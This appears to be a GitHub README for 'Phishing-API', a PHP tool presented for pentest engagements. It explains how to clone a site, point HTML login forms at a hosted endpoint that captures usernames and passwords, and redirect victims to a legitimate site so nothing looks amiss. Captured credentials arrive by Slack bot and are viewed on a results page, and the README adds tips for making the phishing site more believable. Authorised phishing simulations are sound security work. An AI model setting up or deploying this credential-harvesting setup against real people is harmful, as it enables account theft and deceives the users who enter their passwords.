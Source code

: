 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot


This is intended to be a "quick and dirty" solution when Phishing.  For better results, use Evilnginx or another solution.  This is for someone who wants to quickly clone a site and start collecting credentials within minutes.  Enjoy!


To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the "username" and "password" fields are named as such

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/uTFhyCC.jpg)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/OmEwX5Z.jpg)
